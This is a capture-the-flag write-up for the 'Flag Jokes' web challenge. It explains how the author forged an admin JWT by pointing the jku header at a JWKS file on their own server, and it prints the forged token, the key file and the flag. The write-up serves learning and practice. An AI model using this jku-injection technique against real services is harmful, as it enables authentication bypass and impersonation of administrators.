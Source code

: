 # Flag Jokes

#### Category: Web | 76 solves | 200 points

Want to hear a joke? Want the flag? How about both? Why don't YOU tell me a joke!

Note, it is recommended to clear your cookies for this challenge as some may have the same names used in other challenges.

Connect here:     
http://jh2i.com:50010

----

We see a login form so we try logging in as `admin`. Sadly it was blocked, so let's login as `test123` instead.

Apparently the flag is supposed to show up here, but we don't see it because we are not admin.

Analysing the JWT:     
```
eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9zdGF0aWMvandrcy5qc29uIiwia2lkIjoic3FjRTFhOWdqOXAwOHpOTVIxTVdiTEx2dWFQeVVlSkVzQ2xCaHk3UTRKYyJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMifQ.N5AGhe3X2GccJ2WYT7S5rdiwx9hs3UOZ8ksCys4qv5SMp3b6ADeT4qwBWNsCpnNp0vvd_onY-la1UnWW-2mz_OSkXxkf9ljYXLbV8SEbCaTWYdAL_15PvIGW27mHV7Pm_1OWsYid2uT8wU3IDwqx9RmOofJLeMDjUoIf6-rjtdvPF958ZjTDe5HkML8fVotOv1HPKKYm99JH_fZ2fVx-zrbsnt_gWhBMuB9eePe2QSWOn-CJxl1LJzAJ4e143pWBfzG2gBUhCSEe3thSIXcud5Kf6lurNuqTJL0VrQzArGL5SVKsk5erFajKhLfKjGDZ4sIfr_hDiJpjDQnNO0MQ8w
```

We can see that the `jku` value points to `/static/jwks.json`, so we try accessing it on http://jh2i.com:50010/static/jwks.json 

As I wasn't sure what JWKS was, I went to read [this article](https://auth0.com/docs/tokens/concepts/jwks) by auth0 and it helped me.

Moving on, we try to change the payload `username` to `admin`, using a self-signed RSA key and hosting the jwks on my server.

Final JWT:    
```
eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly8xMTguMjcuMjcuMjA4L2p3a3MuanNvbiIsImtpZCI6InNxY0UxYTlnajlwMDh6Tk1SMU1XYkxMdnVhUHlVZUpFc0NsQmh5N1E0SmMifQ.eyJ1c2VybmFtZSI6ImFkbWluIn0.L6YqcYuXMzajyQdccRVyYIr2jN9_3IJKog9UgSvGLiNd9saTtCF5cGemBSyzDZZhv2WJDwjz9adVZoUnBpD2YGdh7ExT7g65rXxRhm-xrBtYCCETuYtVUXPErTTtYlLYM4nP7KitS6q1w4Da1JjKDYgCduus1fuPl5mCFLMriymPlrBBC_u5Pwx6PLElfuFv7IncDByT3zKuBog2KP97LRK5kacDsMk3OuP9tI0BihbrjcJiVpae-td74iFMSQxaaclnRgecavSKMbKY3E1__UJAWI6s8ZCri8r8ZKKoUdwvWd3E63U-bi1FvaQAAoFYYNaWqllc5TbJApjGOQjhTg
```

And the file on my server:
```
{
  "keys": [
       {
        "e": "AQAB",
        "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc",
        "kty": "RSA",
        "n":"36QCY7FHG9WI5jWtZXbhE_ryI2LkfDM2e4IdY61t2lgdeL7XN6nh4wijseQ6gGhTAYJVuLEqkUMgtLTbgywRvQi8xq1IJjs7eW55OWOl6r8ASWOahqf_QT-QIq6grnxJNwaDlXiJtQod0phftTWagVi4u7UnnZ82NsDM3UZWzt_T4dDlx4qzy7_wsntSAd3EC4DVMhxhyX2DhCIqylSO1IyVce4kGEBy8fs8FCAoxyuH56jEXOn0s_1TeL0lf346Bm7vVGpRCr4gH3S0-FsM_prP-KRaYh0KFnaoJ0lc1VcgntVvSEniuvuDJzSzeyzP7uHB5k5kq7hM4NALQ1kHNw"
        }
           ]
}
```
And we got the flag!

![FLAG](images/flag.png)

<details>
  <summary>FLAG</summary>
  
  flag{whoops_typo_shoulda_been_flag_jwks}
</details>
                         

I was stuck prior to the final step initially because I missed the format of JWKS - my generated file was only JWK and not a set like on the server. 

Anyway it was a good learning experience!

